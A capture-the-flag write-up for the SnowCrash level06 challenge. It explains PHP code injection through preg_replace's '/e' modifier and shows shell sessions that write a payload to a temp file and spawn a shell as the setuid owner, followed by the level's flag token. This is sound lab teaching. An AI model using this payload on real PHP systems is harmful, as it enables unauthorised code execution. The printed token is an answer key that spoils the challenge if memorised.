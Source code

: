 ### Exploit

This level, we're going to look at the potential vunerabilities of a PHP script. More specifically, that of the function [preg_replace](http://www.madirish.net/402). We are given two files to work with: a PHP script and an executable binary. Both appear to be rigourously the same. Let's break them down.

First off, the script takes two parameters which are called by function __x__. This function basically retrieves the content of the first argument via [file_get_contents](https://www.php.net/manual/en/function.file-get-contents.php) and prints it. So far, nothing too complicated. The next line is far more interesting.
> $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);

Indeed, the '/e' modifier actually allows us to evaluate the second argument as a PHP expression. This means we could create a file whose content is to be interpreted and then executed by the script. For example:
```
    level06@SnowCrash:~$ echo "`ls -lah`" >/tmp/test
    level06@SnowCrash:~$ ./level06 /tmp/test
    total 24K
    dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
    d--x--x--x  1 root    users    340 Aug 30  2015 ..
    -r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
    -r-x------  1 level06 level06 3.5K Aug 30  2015 .bashrc
    -rwsr-x---+ 1 flag06  level06 7.4K Aug 30  2015 level06
    -rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
    -r-x------  1 level06 level06  675 Apr  3  2012 .profile
```
Unfortunately, this won't work:
```
    level06@SnowCrash:~$ echo "`getflag`" >/tmp/test
    level06@SnowCrash:~$ ./level06 /tmp/test
    Check flag.Here is your token :
    Nope there is no token here for you sorry. Try again :)
```
We need to trick the script into thinking it executes `getflag` as `flag06`. More shell spawning anyone?

```
    level06@SnowCrash:~$ echo '[x {${system(sh)}}]' >/tmp/getflag
    level06@SnowCrash:~$ ./level06 /tmp/getflag
    PHP Notice:  Use of undefined constant sh - assumed 'sh' in /home/user/level06/level06.php(4) : regexp code on line 1
    getflag
    Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

Yeah, I'll just _assume_ this undefined constant is a shell, thank you very much.
